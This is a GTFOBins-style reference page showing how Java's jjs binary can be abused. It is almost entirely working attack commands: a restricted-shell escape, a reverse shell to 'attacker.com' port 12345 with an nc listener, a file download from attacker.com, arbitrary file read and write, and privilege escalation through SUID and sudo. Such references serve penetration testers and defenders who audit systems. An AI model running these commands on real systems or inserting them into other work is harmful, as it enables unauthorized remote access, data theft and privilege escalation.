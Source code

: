 # GTFOBin: jjs

This tool is installed starting with Java SE 8.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | jjs
```

## Reverse shell

It can send back a reverse shell to a listening attacker to open a remote network access.

Run `nc -l -p 12345` on the attacker box to receive the shell.

```
export RHOST=attacker.com
export RPORT=12345
echo 'var host=Java.type("java.lang.System").getenv("RHOST");
var port=Java.type("java.lang.System").getenv("RPORT");
var ProcessBuilder = Java.type("java.lang.ProcessBuilder");
var p=new ProcessBuilder("/bin/bash", "-i").redirectErrorStream(true).start();
var Socket = Java.type("java.net.Socket");
var s=new Socket(host,port);
var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){ while(pi.available()>0)so.write(pi.read()); while(pe.available()>0)so.write(pe.read()); while(si.available()>0)po.write(si.read()); so.flush();po.flush(); Java.type("java.lang.Thread").sleep(50); try {p.exitValue();break;}catch (e){}};p.destroy();s.close();' | jjs
```

## File download

It can download remote files.

Fetch a remote file via HTTP GET request.

```
export URL=http://attacker.com/file_to_get
export LFILE=file_to_save
echo "var URL = Java.type('java.net.URL');
var ws = new URL('$URL');
var Channels = Java.type('java.nio.channels.Channels');
var rbc = Channels.newChannel(ws.openStream());
var FileOutputStream = Java.type('java.io.FileOutputStream');
var fos = new FileOutputStream('$LFILE');
fos.getChannel().transferFrom(rbc, 0, Number.MAX_VALUE);
fos.close();
rbc.close();" | jjs
```

## File write

It writes data to files, it may be used to do privileged writes or write files outside a restricted file system.

```
echo 'var FileWriter = Java.type("java.io.FileWriter");
var fw=new FileWriter("./file_to_write");
fw.write("DATA");
fw.close();' | jjs
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
echo 'var BufferedReader = Java.type("java.io.BufferedReader");
var FileReader = Java.type("java.io.FileReader");
var br = new BufferedReader(new FileReader("file_to_read"));
while ((line = br.readLine()) != null) { print(line); }' | jjs
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

This has been found working in macOS but failing on Linux systems.

```
sudo install -m =xs $(which jjs) .

echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)').waitFor()" | ./jjs
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
echo "Java.type('java.lang.Runtime').getRuntime().exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)').waitFor()" | sudo jjs
```